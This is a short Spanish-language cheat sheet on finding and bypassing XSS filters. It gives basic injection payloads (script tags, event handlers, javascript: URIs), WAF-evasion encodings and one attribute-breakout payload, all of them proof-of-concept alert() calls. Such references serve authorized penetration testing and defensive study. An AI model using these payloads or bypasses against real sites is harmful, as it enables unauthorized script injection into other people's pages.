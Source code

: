 -- -
#### **Detección y Bypass de XSS**  
---

## 🔍 **Fase 1: Reconocimiento**  
- Inyectá payloads simples en parámetros GET, POST o cabeceras.  
- Buscá `<script>alert(1)</script>` en la respuesta.  

---

## **Fase 2: Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
```

---

## **Fase 3: Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Algunos payloads**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

---